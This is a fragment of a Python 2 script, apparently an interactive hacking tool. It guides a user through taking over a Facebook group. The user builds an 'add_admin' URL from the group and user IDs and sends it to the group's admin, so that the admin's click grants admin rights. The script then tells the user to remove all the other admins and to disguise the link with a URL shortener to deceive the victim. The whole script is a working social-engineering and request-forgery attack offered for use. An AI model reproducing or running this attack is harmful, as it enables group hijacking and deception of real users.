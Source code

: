   print "%s--------------------%s" % (R, N)

  step3 = raw_input("%s3%s)%s Now Go To Your Profile And Find Your 15 Digits Profile Code. Example %s(%s 100004136748473 %s)%s...%s[%sEnter%s]%s" % (Y, C, W, C, B, C, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  step4 = raw_input("%s4%s)%s If the url didnt show that 15 digit code. Then try to open %sfacebook%s from the browser...%s[%sEnter%s]%s" % (Y, C, W, B, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  step5 = raw_input("%s5%s)%s After Find Both Codes..%sLet we mix it up%s...%s[%sEnter%s]%s" % (Y, C, W, R, W, C, Y, C, N))

  group = raw_input(" %s(%sa%s)%s Group Code%s >>>%s " % (W, C, W, C, R, Y))

  you = raw_input(" %s(%sb%s)%s Your Code%s >>>%s " % (W, C, W, C, R, Y))

  print " %s(%s*%s)%s Result%s >>>%s https://m.facebook.com/group/add_admin/?group_id=%s&user_id=%s&added&_rdrChange%s" % (C, Y, C, W, R, B, group, you, N)

  file.write("https://m.facebook.com/group/add_admin/?group_id=%s&user_id=%s&added&_rdrChange" % (group, you))

  print "%s--------------------%s" % (R, N)

  step6 = raw_input("%s6%s)%s Now Copy The Link On The Result And Then Send Copied Link To %sAdmin%s Of The Group. If Its Hard To You To Copy The Link, I Have Save The Link On File *link.txt*. So Its Getting Easier, Just Open The File link.txt And Then Copy The Link Then Send To The %sAdmin%s...%s[%sEnter%s]%s" % (Y, C, W, R, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  step7 = raw_input("%s7%s)%s You Just Need To Wait Till The %sAdmin%s Click On The Link that You Send. Then You Will Be %sAdmin%s Of The Group...%s[%sEnter%s]%s" % (Y, C, W, R, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  step8 = raw_input("%s8%s)%s Now Don't Waste Your Time. Go To Group Settings And Remove All %sAdmins%s From The Group...%s[%sEnter%s]%s" % (Y, C, W, R, W, C, Y, C, N))

  print "%s--------------------%s" % (R, N)

  step9 = raw_input("%s9%s)%s Have Fun %s:)%s...%s[%sEnter%s]%s" % (Y, C, W, Y, W, C, Y, C, N))

  print "%s[%s#%s]%s -------------------%s Done %s-------------------- %s[%s#%s]%s" % (C, Y, C, B, W, R, C, Y, C, N)

  print

  time.sleep(1)

  print "%s*note:clever admin can notice the link just by one blink. So i suggest you to use shortlink like goo.gl or bit.ly etc*%s" % (Y, N)

  time.sleep(1)

  print "%sThanks%s For %sUsing My Program%s %s:')%s" % (C, W, R, W, Y, N)

  time.sleep(1)
